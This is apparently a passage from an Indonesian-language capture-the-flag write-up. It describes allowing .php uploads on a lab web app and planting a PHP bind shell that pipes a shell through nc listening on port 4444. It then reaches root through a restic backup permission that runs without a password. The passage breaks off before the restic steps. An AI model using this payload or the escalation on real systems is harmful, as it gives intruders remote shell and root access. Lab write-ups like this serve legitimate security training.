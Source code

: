 Tambahkan “php” ke array accept_file_types, sekarang kita bisa mengupload file .php

Namun ada beberapa hal yang perlu diperhatikan dalam file upload ini :

Terdapat firewall untuk melimit koneksi outbound, hanya menerima koneksi inbound
Ada cron job yang aktif setiap beberapa detik atau menit, sangat sebentar jangka waktunya, yang akan mereset config file ini, menghapus file yang kita upload
Karena ada firewall, kita tidak bisa menggunakan payload reverse shell, melainkan kita menggunakan payload bind shell

```
<?php 
shell_exec("rm /tmp/f;mkfifo /tmp/s;cat /tmp/s | sh -i 2>&1 |nc -vnlp 4444 >/tmp/s");
?>
```

Sehingga kita akan memaksa websitenya menjadi penerima, yang melakukan listen dan mesin lokal kita yang akan nc dan mendapatkan shell dari situ

![Image](img/21.jpg)

Penulis akan melakukan enumerasi linux dengan menggunakan script shell yang akan di copy dari mesin lokal menggunakan secure copy melalui ssh user bolt dan menaruhnya di directory /tmp dimana permissionnya selalu world writtable.

Ditemukan hal yang menarik, user www-data bisa melakukan command backup menggunakan restic dengan permission sebagai root tanpa harus menyediakan password seperti sudo.

Nah karena kita memiliki user www-data dan kita diberikan permission root untuk melakukan backup -r rest*, kita bisa membackup root/root.txt yang tadinya tidak bisa kita akses, memindahkannya ke mesin lokal kita dimana kita adalah root, dan membukanya tanpa masalah.

Step by step melakukan backup menggunakan restic :
